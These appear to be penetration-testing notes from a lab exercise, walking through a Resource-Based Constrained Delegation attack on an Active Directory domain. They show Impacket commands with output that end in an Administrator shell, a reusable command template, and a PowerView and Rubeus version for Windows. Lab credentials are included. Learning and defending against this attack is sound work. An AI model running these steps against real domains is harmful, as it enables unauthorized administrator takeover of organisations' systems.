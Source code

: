 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

If a user has GenericAll/GenericWrite over a host, RBCD is possible.

![[Pasted image 20241109135409.png]]

### User

- stannis.baratheon@sevenkingdoms.local:Drag0nst0ne

### The Attack

First, we need to add a computer account:

```bash
garffff@garffff:~/GOAD$ addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip 192.168.56.10 sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account rbcd$ with password rbcdpass.
```

Next, is to add the delegation access:

```bash
garffff@garffff:~/GOAD$ rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 192.168.56.10 -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on kingslanding$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-2059722235-425686273-3516464344-1127)
```

We can now impersonate the target user by requesting a TGS:

```bash
garffff@garffff:~/GOAD/v1$ getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.56.10 'sevenkingdoms.local/rbcd$:rbcdpass'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Load the ticket:

```bash
garffff@garffff:~/GOAD/v1$ export KRB5CCNAME=Administrator.ccache
```

Access the target host (DNS is required):

```bash
garffff@garffff:~/GOAD/v1$ wmiexec.py -k -no-pass kingslanding.sevenkingdoms.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\administrator
```

### Summary

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip <dc_ip> '<domain>/<user>:<password>
rbcd.py -delegate-from 'rbcd$' -delegate-to '<target_computer>' -dc-ip <dc_ip> -action 'write' '<domain>/<user>:<password>
getST.py -spn 'cifs/<target_computer>.<domain>' -impersonate <target_user> -dc-ip <dc_ip> '<domain>/rbcd$:rbcdpass'
export KRB5CCNAME=<target_user>.ccache
wmiexec.py -k -no-pass <target_computer>.<domain>
```

### From Windows

```bash
Import-Module .\powermad.ps1
Import-Module .\powerview.ps1

$TargetComputer = "<target_computer>.<domain>"  
$AttackerSID = Get-DomainUser <user> -Properties objectsid | Select -Expand objectsid  
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}  
ConvertFrom-SID $ACE.SecurityIdentifier  
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)  
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList  
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"  
$SDBytes = New-Object byte[] ($SD.BinaryLength)  
$SD.GetBinaryForm($SDBytes, 0)  
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}  
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-  
allowedtoactonbehalfofotheridentity  
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

.\Rubeus.exe hash /password:Summer2018! /user:attackersystem /domain:<domain>

.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:harmj0y /msdsspn:cifs/<target_computer>.<domain> /ptt

#Clean up
Get-DomainComputer $TargetComputer | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
```